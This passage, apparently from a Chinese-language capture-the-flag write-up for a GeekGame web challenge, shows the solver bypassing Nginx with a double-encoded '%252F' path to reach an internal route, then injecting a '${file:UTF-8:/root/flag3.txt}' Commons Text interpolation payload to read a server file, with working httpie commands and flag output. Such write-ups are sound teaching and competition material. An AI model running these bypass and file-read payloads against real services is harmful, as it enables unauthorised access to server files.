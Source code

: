 我们得到了来自 Nginx 的 400 页面。怎么办呢？

我 Google 搜了一下，找到了一种办法。

再把 `%` 给 转义一遍，得到 `%25`, 跟原来的 `2F` 接起来，得到 `%252F`.

这样的话， URL 在过 Nginx 的时候，`%252f` 变成 `%2f`, 再被 jvav 解码一遍就变成了 `/`.

那我们就能给 `/bonus` 发请求了

```sh
$ http -f 'http://prob08-8dfql2e4.geekgame.pku.edu.cn/admin/localhost%3A8080%252Fbonus' \
    type=aaa value=aaa |
    htmlq --attribute value input |
    jq .value
"flag2{f2d9cc00-180b-404d-8117-d2e712c2e57b} 恭喜你发现flag2，还有其他flag等待你发现哦"
```

然后我们去看一看源码备份 `/source_bak`. 把源码下载到 `source.java`

```sh
http -f 'http://prob08-xxxxxx.geekgame.pku.edu.cn/admin/localhost%3A8080%252Fsource_bak' \
    type=aaa value=aaa |
    htmlq --attribute value input > source.java
```

不难发现 `/bonus` 路由会在 `type==CommonsText` 时对 `queryBean` 里的 Value 执行一个字符串变量插值（在去除危险词汇之后）。

```java
@RequestMapping("/bonus")
public QueryBean bonus(QueryBean queryBean) {
    if(queryBean.getType().equals("CommonsText")) {
        StringSubstitutor interpolator = StringSubstitutor.createInterpolator();
        interpolator.setEnableSubstitutionInVariables(true);

        String value = replaceUnSafeWord(queryBean.getValue());
        String resultValue = interpolator.replace(value);
        queryBean.setValue(resultValue);
    } else {
        // flag3藏在/root/flag3.txt等待你发现
    }
    return queryBean;
}
```

因为去除危险词汇的函数只遍历了一遍，所以我们可以写 `jajsva`，它被替换之后就是 `java` 这个危险词汇。

我 Google 搜了一下 `StringSubstitutor`， 发现它能直接把文件插进字符串里，然而 `file` 并不在危险词汇里。。。不知道这算不算非预期做法。。去除危险词汇的逻辑丝毫没被我碰到。

```sh
$ http -f 'http://prob08-xxxxxx.geekgame.pku.edu.cn/admin/localhost%3A8080%252Fbonus' \
    type=CommonsText value='${file:UTF-8:/root/flag3.txt}' |
    htmlq --attribute value input |
    jq .value
"flag{e088175f-71cd-4841-96fe-40092ddfdd23}"
```

## 这也能卷(Flag · 摆)
